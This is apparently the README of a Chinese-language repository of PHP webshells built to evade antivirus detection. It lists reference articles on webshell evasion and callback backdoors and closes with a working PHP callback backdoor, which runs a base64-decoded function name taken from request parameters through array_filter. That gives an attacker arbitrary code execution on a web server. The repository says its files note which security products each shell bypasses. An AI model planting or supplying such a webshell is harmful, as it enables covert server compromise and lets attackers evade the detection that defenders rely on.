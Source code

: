 
对php免杀的一些研究成果，每一文件里都写了能过哪个软件  


# 参考文献

[我们要WebShell过人！ - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/241454.html)

[PHP webshell 免杀姿势总结 | 国光](https://www.sqlsec.com/2020/07/shell.html#toc-heading-2)  

[创造tips的秘籍——PHP回调后门 | 离别歌](https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html)  

[一些不包含数字和字母的webshell | 离别歌](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html#)  

[第3篇：常见的Webshell查杀工具 · 应急响应实战笔记](https://bypass007.github.io/Emergency-Response-Notes/Summary/%E7%AC%AC3%E7%AF%87%EF%BC%9A%E5%B8%B8%E8%A7%81%E7%9A%84Webshell%E6%9F%A5%E6%9D%80%E5%B7%A5%E5%85%B7.html)  

回调后门
```php
<?php
$e = $_REQUEST['e'];
$arr = array($_REQUEST['pass'],);
array_filter($arr, base64_decode($e));
?>
```
